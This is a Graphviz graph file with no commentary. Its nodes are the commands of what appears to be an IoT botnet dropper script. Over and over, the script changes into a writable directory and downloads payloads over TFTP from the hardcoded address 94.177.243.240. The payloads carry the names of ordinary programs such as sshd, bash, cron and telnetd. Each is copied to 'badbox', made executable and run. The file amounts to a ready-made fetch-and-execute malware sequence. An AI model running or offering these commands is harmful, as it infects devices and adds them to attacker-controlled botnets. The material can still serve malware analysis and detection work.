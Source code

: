 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 94.177.243.240 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 94.177.243.240 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 94.177.243.240 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 74 [label="||,"];
74 [label="tftp -r bash -g 94.177.243.240 "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 94 [label="||,"];
94 [label="tftp -r tftp -g 94.177.243.240 "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 114 [label="||,"];
114 [label="tftp -r pstree -g 94.177.243.240 "];
114 -> 116 [label=";,"];
116 [label="cat pstree badbox "];
116 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 134 [label="||,"];
134 [label="tftp -r dropbear -g 94.177.243.240 "];
134 -> 136 [label=";,"];
136 [label="cat dropbear badbox "];
136 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 154 [label="||,"];
154 [label="tftp -r wget -g 94.177.243.240 "];
154 -> 156 [label=";,"];
156 [label="cat wget badbox "];
156 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 174 [label="||,"];
174 [label="tftp -r cron -g 94.177.243.240 "];
174 -> 176 [label=";,"];
176 [label="cat cron badbox "];
176 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 194 [label="||,"];
194 [label="tftp -r ftp -g 94.177.243.240 "];
194 -> 196 [label=";,"];
196 [label="cat ftp badbox "];
196 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 214 [label="||,"];
214 [label="tftp -r pftp -g 94.177.243.240 "];
214 -> 216 [label=";,"];
216 [label="cat pftp badbox "];
216 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 234 [label="||,"];
234 [label="tftp -r sh -g 94.177.243.240 "];
234 -> 236 [label=";,"];
236 [label="cat sh badbox "];
236 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 254 [label="||,"];
254 [label="tftp -r   -g 94.177.243.240 "];
254 -> 256 [label=";,"];
256 [label="cat   badbox "];
256 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 274 [label="||,"];
274 [label="tftp -r apache2 -g 94.177.243.240 "];
274 -> 276 [label=";,"];
276 [label="cat apache2 badbox "];
276 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 294 [label="||,"];
294 [label="tftp -r telnetd -g 94.177.243.240 "];
294 -> 296 [label=";,"];
296 [label="cat telnetd badbox "];
296 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
}
